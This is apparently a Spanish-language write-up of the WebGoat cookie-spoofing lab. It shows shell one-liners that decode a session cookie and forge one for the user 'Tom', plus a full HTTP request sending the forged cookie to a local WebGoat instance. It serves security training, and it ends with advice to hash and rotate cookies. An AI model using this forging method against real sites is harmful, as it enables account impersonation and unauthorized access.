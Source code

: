 El Set-Cookies siempre es enviado por el servidor, cuando un usario autetifica su sesion. Recuerda que del lado del cliente siempre enviamos cookies para validar sesion este o no conectado, esto lo hacen para guardar historial u otras cosas.

[!NOTE]
It is crucial for the security of the authentication system that the cookie generation algorithm remains secure and not easily guessable. If an attacker can predict or determine the algorithm, they may be able to generate valid authentication cookies for different users, thereby bypassing the authentication mechanism and impersonating other users.


## Comando para desifrar el cookie de una sesion

El siguiente comando funciona para decodificar un base64, luego con xxd lo que hacemos es el leer el hexadecimal ya que es el resultado del base64 decode y una vez que tenemos el hex ocupamos el comando xxd para poder leer el hexadecimal y ocupar un rev ya que la cadena string viene desordeanada. 

```zsh 
# Con esto decodificamos
# Es mejor ocupar el -n para evitar el salto de pagina

echo -n "NzY2YTY3NjE1NzRiNzA2NTc5NmI2ZTY5NmQ2NDYx" | base64 --decode | xxd -r -p | rev

```

En base al resultado que nos da solo modificamos el string que es nuestro usuario y lo cambiamos por el de Tom,despues aplicamos un rev, lo convertimos a hexadecimal y luego ocupamos el comand tr para eliminar los saltos de paginas que nos da el xxd -p, es de suma importancia esto, ya despues lo volvemos a codificar.

```zsh

echo -n "TomkyepKWagjv" | rev | xxd -p | tr -d '\n' | base64

```

Al tener nuesto resultado lo que tenemos que hacer es enviar el comando con un POST pero ya con nuestro cookie spoof mas el cookie de la sesion.

```zsh
POST http://localhost:8080/WebGoat/SpoofCookie/login HTTP/1.1
host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
content-length: 29
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/WebGoat/start.mvc?username=alffy-root
Cookie: JSESSIONID=390CNJu58mrVnb1fEP4cjtcxVcG50RLK5kZ1R67h; spoof_auth="NzY2YTY3NjE1NzRiNzA2NTc5NmI2ZDZmNTQ="
---------------------------------------------------------------
username=admin&password=admin
```

Si nos damos cuenta no es necesario ocupar otro nombre de usuario, lo que estamos haciendo es que nos logeamos con nuestras credenciales pero en el backend le estamos deiciendo que en realidad somo Tom. Ojo esto solo es valido cuando los cookies aun estan disponibles ya que hay que recordar que usualmente expiran. Por eso es importante protejer las cookies con un buen hash y cada cierto tiempo renovarlas. 
